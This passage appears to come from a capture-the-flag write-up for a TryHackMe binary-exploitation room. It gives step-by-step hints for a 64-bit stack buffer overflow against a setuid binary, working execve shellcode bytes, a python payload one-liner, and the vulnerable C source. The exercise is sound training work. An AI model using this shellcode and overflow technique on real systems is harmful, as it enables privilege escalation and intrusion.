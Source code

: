 If you are stuck, here are the hints for the exploit.

- **Hint 1**: Step to overflow 64-bits buffer
  - **Step 1**: Generate a pattern, copy and paste this as input to the binary (use pattern_create.rb from Metasploit)
  - **Step 2**: Read and copy the value from register RBP for the offset.
  - **Step 3**: Calculate the offset. (use pattern_offset.rb from Metasploit)
  - **Step 4**: Try control the register RIP with the following payload Junk\*(offset value) + 8 bytes of dummy
  - **Step 5**: Read the stack or register RSP to find a suitable return address.
  - **Step 6**: The general payload should be like below Nop + shellcode + Junks + return address
- **Hint 2**: Working shellcode `\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05`
- **Hint 3**: Running the payload with the binary `(python -c "print('\x90'*(fill in the number) + (shellcode) + 'A'*(fill in the number) +(return address))";cat) | ./bof64`

For your information, the Gnu debugger or gdb is installed with the machine. Happy hunting!

```
des@THM_exploit:~$ ./bof
Enter some string:
test
You entered: test
des@THM_exploit:~$ file bof
bof: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=4a53f62986d7ff151cb42f0bdf26ce36c28ca5dd, not stripped
```

```
kali@kali:~/CTFs/tryhackme/Binex$ cat bof64.c
```

```c
#include <stdio.h>
#include <unistd.h>

int foo(){
        char buffer[600];
        int characters_read;
        printf("Enter some string:\n");
        characters_read = read(0, buffer, 1000);
        printf("You entered: %s", buffer);
        return 0;
}

void main(){
        setresuid(geteuid(), geteuid(), geteuid());
        setresgid(getegid(), getegid(), getegid());

        foo();
}
```

```
des@THM_exploit:~$ echo $(python -c 'print("A" * 650)') | ./bof
Enter some string:
Segmentation fault (core dumped)
```
